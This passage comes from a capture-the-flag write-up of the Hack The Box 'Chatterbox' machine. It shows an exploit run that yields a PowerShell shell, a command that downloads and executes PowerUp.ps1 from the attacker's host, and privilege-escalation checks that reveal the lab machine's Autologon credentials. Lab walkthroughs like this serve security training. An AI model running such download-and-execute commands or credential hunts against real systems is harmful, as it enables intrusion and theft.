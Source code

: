 ```text
python -m SimpleHTTPServer 5555
```

Run the exploit.

```text
root@kali:~/Desktop/htb/chatterbox# python 36025.py 
---->{P00F}!
```

We get a PowerShell shell!

![](../images/max/943/1*BqwL-qWlNezkn5G9g4eKFw.png)

We’ll use the [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) script to determine if there are any misconfigurations that lead to privilege escalation.

Upload and run the script on the target machine.

```text
PS C:\Users\Alfred\Desktop> iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/PowerUp.ps1')PS C:\Users\Alfred\Desktop> Invoke-AllChecks
```

We get back two interesting results.

```text
[*] Checking for Autologon credentials in registry...DefaultDomainName    : 
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   :[*] Checking for unattended install files...UnattendPath : C:\Windows\Panther\Unattend.xml
```

Viewing the _Unattend.xml_ file, we see that the password was redacted. So let’s focus on the Autologon credentials. The default username is “_Alfred_” and the default password is “_Welcome1!_”. I don’t have much experience with Windows, so I googled [Autologin credentials](https://support.microsoft.com/en-ca/help/324737/how-to-turn-on-automatic-logon-in-windows) to learn more about it.

![](../images/max/1148/1*oR22IbW1Do-rN8XOfFjtjQ.png)
